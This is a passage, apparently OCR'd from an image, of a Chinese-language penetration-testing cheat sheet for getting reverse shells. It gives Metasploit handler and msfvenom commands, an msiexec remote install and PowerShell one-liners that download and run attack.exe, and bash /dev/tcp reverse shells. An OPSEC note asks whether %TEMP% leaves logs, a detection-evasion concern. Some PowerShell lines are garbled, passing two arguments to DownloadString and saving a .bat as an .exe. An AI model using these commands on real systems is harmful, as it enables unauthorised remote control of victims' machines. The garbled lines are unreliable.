 ```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

上线。

```powershell
msiexec /q /i http:<Host>/attack.msi
```

*OPSEC：运行后不知道 `%TEMP%` 是否存在日志，需确认（这条待确认）*[https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec#:~:text=%E6%89%A7%E8%A1%8C%E5%90%8E%E4%BC%9A%E5%9C%A8%25TEMP%25%E4%B8%8B%E7%94%9F%E6%88%90MSI%E7%9A%84log%E6%96%87%E4%BB%B6%EF%BC%8C%E5%A6%82%E5%9B%BE](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec#:~:text=%E6%89%A7%E8%A1%8C%E5%90%8E%E4%BC%9A%E5%9C%A8%25TEMP%25%E4%B8%8B%E7%94%9F%E6%88%90MSI%E7%9A%84log%E6%96%87%E4%BB%B6%EF%BC%8C%E5%A6%82%E5%9B%BE)\*

#### 2.1.8 exe 可执行文件

生成 Payload。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f exe -o attack.exe
```

MSF 监听。

```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

上线。

```powershell
powershell (New-Object Net.WebClient).DownloadString('http://<Host>/attack.bat', 'attack.exe');start attack.exe

powershell -w hidden -ep bypass -nop (New-Object Net.WebClient).DownloadString('http://<Host>/attack.exe', 'attack.exe');start-process attack.exe
```

### 2.2 Linux

#### 2.2.1 Bash

控制端将输入传输到被控端执行，被控端也要将执行返回的内容输出到控制端完成交互。

```bash
// 返回部分交互式 Shell，没有 [Username@HostName CurrentDir]
bash -i > /dev/tcp/<IP>/<Port> 0>&1 2>&1

// 能够返回完整可交互 Shell
bash -i &> /dev/tcp/<IP>/<Port> 0>&1
```

bash -i

/dev/tcp

0>&1
